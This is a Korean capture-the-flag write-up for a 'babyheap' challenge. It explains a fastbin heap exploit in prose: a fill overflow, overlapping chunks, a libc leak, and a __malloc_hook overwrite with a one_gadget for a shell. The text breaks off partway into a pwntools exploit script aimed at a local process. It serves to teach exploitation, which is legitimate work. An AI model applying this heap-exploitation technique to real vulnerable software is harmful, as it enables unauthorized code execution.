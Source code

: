 >_정말 마술같은 일이다.. 그래서 `magic gadget`이라고도 부른다._

하지만 이 `gadget`은 매우 민감하다 충족해야할 조건이 몇가지가 있다. 따라서 사용을 못하는 경우도 있다는 사실을 잊지 맙시다. 

구하는 방법은 아래의 주소를 참고.  
<https://www.lazenca.net/pages/viewpage.action?pageId=16810292>

## Exploit scenario

원래 바이너리 분석을 하겠지만, 이 문제는 정말 쉽다. 분석은 스스로 해보도록 합시다..  
간단하게만 말하자면, `allocate`, `fill`, `free`, `dump` 이렇게 4가지의 메뉴가 있는데 각자 그 메뉴의 충실한 역할을 수행합니다.  

다만 `fill`에서 데이터를 적는 크기를 제한을 두지 않아서 원하는 만큼 쓸 수가 있습니다. 쉽게 말하자면 `gets(buf)`의 상황과 비슷하다..  

따라서	  

	A[0x20]  
	B[0x20]  
	C[0x20]  
	D[0x20]  
	E[0x100]  

이런식으로 할당을 해준다음 `C,B`를 `free`하여 `B->C`를 만들어줍니다.   
그 다음 `A`에 `fill`을 이용하여 `C`의 `fd`를 한 바이트만 `0xc0`으로 덮어 `B->C->E`로 만들어줍니다.
(heap영역이 0x...00에 할당받기 때문에 E청크의 주소는 0x...c0입니다.)

`fastbin`에서 받아서 할당할때 해당 청크의 `size`를 검사하게 되는데, 현재 E의 청크사이즈는 `0x110`이기 때문에 이대로 할당을 받으면 프로그램이 죽어버립니다.

이를 해결하기위해 D에 fill을 이용하여 `E의 size`를 `0x31`로 만들어 줍니다. (실제 size는 0x30 flag값 때문에 0x31)  
이제 `allocate(0x20)`을 세번을 하게되면 `B, C, E` 순서대로 할당이 받아지게 됩니다.  
따라서 E청크가 중복으로 할당이 된 것입니다. 이를 이용하여 하나는 `free`를 해주어 contents를 main arena의 주소로 만들어주고 free하지 않은 나머지 하나로 `dump`를 하게되면 libc를 릭할 수 있습니다.  

똑같은 방법으로 `fd`를 `malloc_hook`으로 덮습니다. 여기서 문제는 아까와 같이 `size check`입니다. 청크의 size부분이 0 이거나 0x80이상이면 안됩니다.  

`malloc_ hook`은 libc내부에 있기때문에 근처에 0x7f....의 주소가 많이 있습니다. 이 `0x7f`를 이용하여 `size` 부분을 0x7f로 만드는 공간을 찾습니다.  
해당 공간에 할당을 받은 뒤 `malloc_ hook`을 `one_ gadget`으로 덮습니다.

그렇게 되면 `malloc()`이 호출되면 쉘이 따지게 됩니다!!

## Exploit code
##### 삽질이 많습니다...

	from pwn import*
	
	s = process('./babyheap')
	one = 0x4526a
	
	def alloc(size):
	        print ("alloc size [%d]" %size)
	        s.recvuntil('Command: ')
	        s.sendline('1')
	        s.recvuntil('Size: ')
	        s.sendline(str(size))
	def fill(index,size,content):
	        print ("fill at [%d]" %index)
	        s.recvuntil('Command: ')
	        s.sendline('2')
	        s.recvuntil('Index: ')
	        s.sendline(str(index))
	        s.recvuntil('Size: ')
	        s.sendline(str(size))
	        s.recvuntil('Content: ')
	        s.send(content)
	def free(index):
	        print ("free [%d]" %index)
	        s.recvuntil('Command: ')